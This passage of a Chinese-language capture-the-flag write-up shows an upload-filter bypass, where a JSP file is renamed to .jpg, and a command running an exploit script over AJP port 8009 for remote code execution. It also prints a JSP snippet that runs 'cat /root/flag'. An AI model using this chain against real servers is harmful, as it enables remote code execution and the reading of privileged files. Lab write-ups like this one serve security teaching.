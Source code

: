 将其扩展名改为合法的图片类型，例如`give_me_flag.jpg`，成功上传。

![image-20200306135031670](README.assets/image-20200306135031670.png)

通过漏洞包含执行上述代码。

```
python3 2020-10487.py 10.0.0.39 -p 8009 -f upload/1583473803009-e97299befc134974b09183ed9e1061d2.jpg --rce 1
```



![image-20200306135316906](README.assets/image-20200306135316906.png)



### 第三个flag（/root/flag）

使用第二步同样的方法，并不会成功。

```jsp
<%@page import="java.io.*"%>
<%
	String cmd = "cat /root/flag";
	Process process = Runtime.getRuntime().exec(cmd);
	DataInputStream in = new DataInputStream(process.getInputStream());
	for (;;) {
		String line = in.readLine();
		if (null == line) {
			break;
		} else {
			out.print(line);
		}
	}
%>
```
